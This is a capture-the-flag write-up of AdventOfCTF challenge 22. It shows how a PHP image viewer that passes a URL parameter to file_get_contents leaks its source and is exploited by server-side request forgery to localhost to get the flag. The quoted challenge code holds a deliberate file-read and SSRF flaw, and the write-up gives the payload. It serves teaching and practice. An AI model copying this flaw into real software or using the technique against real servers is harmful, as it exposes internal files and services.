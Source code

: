 +++
author = "Maik de Kruif"
title = "Dubstep"
subtitle = "Challenge 22 - AdventOfCTF"
date = 2021-03-04T01:24:34+01:00
description = "A writeup for challenge 22 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/6c0810c1568645bcf58da67a1db6e3e7.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
    "ssrf",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2200

## Description

We have a new service! You can view santa's favorite pictues. Currently there is only one, but it is a very good one! You can get the flag through flag.php.

Visit <https://22.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with a link with the text "Is this santa?". If we click on it, it redirects to `/index.php?image=cat.jpg`.

This page shows us a nice picture of a cat.

## Finding the vulnerability

When looking at this, you might think of Local File Inclusion (LFI). This makes sense as it is one of the most common vulnerability in opening files.

We can try to use it to open `flag.php`. To try this, let's replace `cat.jpg` with `flag.php` in the URL.

When opening the page, we will see a broken image, this is expected as the file it not an image. If we open the source we find the following:

```html
<img
  src="data:image/jpeg;base64,PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo="
  width="100%"
/>
```

Here we see some `base64` encoded data, let's decode it using the following command:

```bash
echo -n "PD9waHAKCmluY2x1ZGUoInNlY3JldC5waHAiKTsKCmlmIChzdHJwb3MoY2hlY2tfc2VjcmV0KCksICJhbGxvdyIpICE9PSBmYWxzZSkgewogICBlY2hvIGdldF9mbGFnKCk7IAp9Cgo/Pgo=" | base64 -d
```

```php
<?php

include("secret.php");

if (strpos(check_secret(), "allow") !== false) {
   echo get_flag();
}

?>
```

If we look at this code, we see that if `check_secret()` contains `"allow"`, it will execute the `get_flag()` function (which will probably give us the flag).

The functions are not defined in this file so they probably come from `secret.php`. Let's try to read that file.

Alas, we get the cat picture again. That's weird. There might be a filter on the input. Let's verify that by reading the `index.php` file.

Using the same decoding method, we get the following result:

{{< code language="php" title="index.php" >}}

```html
<!DOCTYPE html>
<html class="no-js" lang="">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="x-ua-compatible" content="ie=edge" />
    <title>Advent of CTF 22</title>
    <meta name="description" content="" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <link rel="stylesheet" href="style.css" type="text/css" media="screen" />
    <link
      rel="stylesheet"
      href="https://use.fontawesome.com/releases/v5.6.3/css/all.css"
      integrity="sha384-UHRtZLI+pbxtHCWp1t77Bi1L4ZtiqrqD80Kn4Z8NTSRyMA2Fd33n5dQ8lWUE00s/"
      crossorigin="anonymous"
    />
    <style>
      .row-margin-05 {
        margin-top: 0.5em;
      }
      .row-margin-10 {
        margin-top: 1em;
      }
      .row-margin-20 {
        margin-top: 2em;
      }
      .row-margin-30 {
        margin-top: 3em;
      }
    </style>
  </head>
  <body>
    <div class="jumbotron bg-transparent mb-0 radius-0">
      <div class="container fluid">
        <div class="row">
          <div class="col-xl-6 mx-auto">
            <h1 class="display-2">
              Advent of CTF <span class="vim-caret">22</span>
            </h1>
            <div class="lead mb-3 text-mono text-warning">
              Your daily dose of CTF for December
            </div>

            <div class="row">
              <div class="col-xl-12 mx-auto">
                <div class="card">
                  <div class="card-header text-center">
                    <h2>The big reveal</h2>
                  </div>
                  <div class="card-body">
                    <?php
                    if (!isset($_GET["image"])) {
                    ?>
                    <a href="/index.php?image=cat.jpg">Is this santa?</a>
                    <?php
                    } else {
                        $path = $_GET["image"];
                        if (strpos($path,"secret") !== false) {
                            $path="cat.jpg";
                        }
                        $image = file_get_contents($path);
                        echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
                    } ?>
                  </div>
                  <div class="card-footer text-center">Almost there</div>
                </div>
              </div>
            </div>
            <div class="row row-margin-30">
              <div class="card mb-3 bg-dark text-white">
                <div class="card-body">
                  <div class="row">
                    <div class="col-md-2">
                      <img src="/logo.png" />
                    </div>
                    <div class="col-md-9 offset-md-1 align-middle">
                      <p class="text-center">
                        <span class="align-middle">
                          The Advent of CTF is brought to you by
                          <a href="http://www.novi.nl">NOVI Hogeschool</a>. It
                          is built by
                          <a
                            href="https://twitter.com/credmp/"
                            class="icoTwitter"
                            title="Twitter"
                            ><i class="fab fa-twitter"></i> @credmp</a
                          >. If you are looking for a Dutch Cyber Security
                          Bachelor degree or bootcamp,
                          <a href="https://www.novi.nl">check us out</a>.
                        </span>
                      </p>
                    </div>
                  </div>
                </div>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

{{< /code >}}

Just the PHP part:

```html
<?php
if (!isset($_GET["image"])) {
?>
<a href="/index.php?image=cat.jpg">Is this santa?</a>
<?php
} else {
    $path = $_GET["image"];
    if (strpos($path,"secret") !== false) {
        $path="cat.jpg";
    }
    $image = file_get_contents($path);
    echo '<img src="data:image/jpeg;base64,'.base64_encode($image).'" width="100%"/>';
} ?>
```

Here we see that we cannot get any file containing "secret". This means we have to find another way to get the flag.

We see that this code is using the `file_get_contents()` function to open file. Let's have a look at the [PHP documentation for it](https://www.php.net/manual/en/function.file-get-contents.php).

If we read a bit we find the following example usage:

```php
<?php
$homepage = file_get_contents('http://www.example.com/');
echo $homepage;
?>
```

This means it can also open URLs and, since we control the input to the function, we have a Server-Side Request Forgery (SSRF) vulnerability. Let's try to use that to open the flag file.

To test this, we can use the following input; `image=http://localhost/flag.php`.

_Note: We can not use the `secret.php` file as any input containing "secret" is blocked._

We, again, got some base64 encoded data back, so let's decode it:

```bash
echo -n "Tk9WSXthc2tpbmdfZm9yX2FfZnJpZW5kfQ==" | base64 -d
```

## Solution

We got the flag! It is `NOVI{asking_for_a_friend}`.
